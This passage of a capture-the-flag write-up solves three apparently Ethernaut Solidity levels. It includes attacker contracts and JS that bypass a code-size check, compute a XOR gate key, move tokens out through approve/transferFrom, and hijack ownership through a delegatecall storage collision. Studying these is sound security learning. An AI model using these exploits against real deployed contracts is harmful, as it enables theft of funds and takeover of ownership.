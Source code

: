 ### 14. Gatekeeper Two

Very much similar to the challenge above.
1. `gateOne()` still requires us to use an intermediary contract to call it.
2. `gateTwo()` requires the contract's code size at caller address to be 0. This can be bypassed by calling in the contract constructor.
3. `gateThree()` again, requires the passed in bytes8 `_gateKey` to fulfill a certain pattern:

```solidity
modifier gateThree(bytes8 _gateKey) {
  	require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
  	_;
}
```

We can easily calculate the `_gateKey` by reversing the xor operation.

The contract code could look something like this:
```solidity
contract GatekeeperTwoAttacker {
    constructor(address addr) {
        IGatekeeperTwo challenge = IGatekeeperTwo(addr);
        uint64 gateKey = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (type(uint64).max);
        require(challenge.enter(bytes8(gateKey)));
    }
}
```

### 15. Naught Coin

The coin derives from `ERC20` in the `openzeppelin` contracts. However, it only overrides the external `transfer()` function. We know that ERC20 tokens have another method of transfering using the `approve() + transferFrom()` method which we can use in this challenge.

```js
const amount = await challenge.INITIAL_SUPPLY();
await challenge.approve(walletAddress, amount);
await challenge.connect(wallet).transferFrom(address, walletAddress, amount);
```

### 16. Preservation

We can see that the `LibraryContract` sets the slot 0 when called `setTime()`. But the slot 0 is actually where the `timeZone1Library` address is stored. So our attack vector is:
1. Call `setFirstTime()` with our exploit contract address that sets owner to ourself - this will override `timeZone1Library` to our exploit contract address.
2. Call `setFirstTime()` again and override the owner slot.

The exploit contract code could look something like this:
```solidity
contract PreservationAttacker {

    address public timeZone1Library;
    address public timeZone2Library;
    uint public owner; 

    function setTime(uint _time) public {
        owner = _time;
    }

}
```
